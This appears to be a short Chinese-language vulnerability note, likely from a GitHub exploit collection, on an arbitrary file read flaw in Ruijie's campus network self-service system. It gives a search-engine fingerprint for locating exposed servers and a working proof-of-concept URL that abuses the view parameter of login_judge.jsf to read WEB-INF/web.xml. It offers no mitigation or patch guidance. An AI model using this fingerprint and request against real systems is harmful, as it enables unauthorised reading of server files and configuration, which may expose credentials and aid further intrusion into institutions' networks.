

# 锐捷 校园网自助服务系统 login_judge.jsf 任意文件读取漏洞

## 漏洞描述

锐捷 校园网自助服务系统 login_judge.jsf 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

锐捷 校园网自助服务系统

## 网络测绘

```
body="校园网自助服务系统"
```

## 漏洞复现

登陆页面


poc

```
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

